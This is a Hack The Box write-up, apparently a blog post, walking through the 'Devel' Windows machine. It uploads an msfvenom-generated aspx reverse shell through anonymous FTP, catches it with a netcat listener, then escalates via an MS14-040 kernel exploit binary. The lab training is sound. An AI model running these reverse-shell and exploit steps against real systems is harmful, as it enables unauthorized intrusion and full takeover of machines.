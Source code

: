 ```yaml
---
layout: post
title: Hack The Box - Devel
---
```


This post is an overview of my time working through the box "Devel" found in [HackTheBox](https://www.hackthebox.eu)

---
![](/assets/image/attachmentsPasted&#32;image&#32;20210707143314.png)


### Nmap enumeration

```
# Nmap 7.91 scan initiated Mon Jun  7 11:30:40 2021 as: nmap -vvv -p 21,80 -sC -sV -oN 10.10.10.5 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.044s latency).
Scanned at 2021-06-07 11:30:40 EDT for 8s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 11:30:48 2021 -- 1 IP address (1 host up) scanned in 8.38 seconds

```

we see immediately that we have anonymous login to the ftp server:
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
and based on the file preview we are given:

```
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

I think it is quite likely this is the base directory of the webserver on port 80. Navigating to http://10.10.10.5/welcome.png I confirm this:

![](/assets/image/attachmentsPasted&#32;image&#32;20210608132821.png)

## Reverse shell
with this knowledge we can generate an aspx reverse shell with msfvenom, upload it via the ftp server and then triger it via the web server.

I used the following payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=53 EXITFUNC=thread -f aspx -o shell.aspx
```

setting up a netcat listener we get a shell

```
└─$ nc -lvnp 53     
Ncat: Version 7.91 ( https://nmap.org/ncat )   
Ncat: Listening on :::53                                               
Ncat: Listening on 0.0.0.0:53                                             
Ncat: Connection from 10.10.10.5.                                          
Ncat: Connection from 10.10.10.5:49157.

Microsoft Windows [Version 6.1.7600]                                               
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

## Privilege escalation
I discovered that the machine had a .NET framework too old (v3.5) to support running the winPEAS binaries, so I had to resort to the bat file


```
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
.
.
.

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.5\1033  
    Version    REG_SZ    3.5.30729.4926 
    CBS    REG_DWORD    0x1    
    Install    REG_DWORD    0x1   
    SP    REG_DWORD    0x1 

```

we see in the winPEAS output there are no hotfixes installed (in hindsight I should have noticed this from sysinfo)
```
Hotfix(s):                 N/A  
```

we are given many possible kernel exploits to ru nbecause of this

```
"Microsoft Windows 7 Enterprise   "                         
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)  
   
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)        
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)     
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                      
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)  
MS10-021 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)  
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)  
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)  
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)   
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)    
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                     
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                  
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)             
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)  
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)   
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                            
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)  
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys) 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                       
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)   
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)  
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu) 
```

with some google fu, I found a binary to exploit one of these [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-040). Uploading it via ftp and running it we get system. Now it is simply the case of reading the flags

```
c:\Users\babis\Desktop>type user.txt.txt                                       
type user.txt.txt                                         
<flag_here>
```

```
c:\Users\Administrator\Desktop>type root.txt         
type root.txt                                                                    
<flag_here> 
```

### Conclusion
Fun box, I ignored the obvious path to privesc for a while because well I thought it was too obvious, I won't make the same mistake again
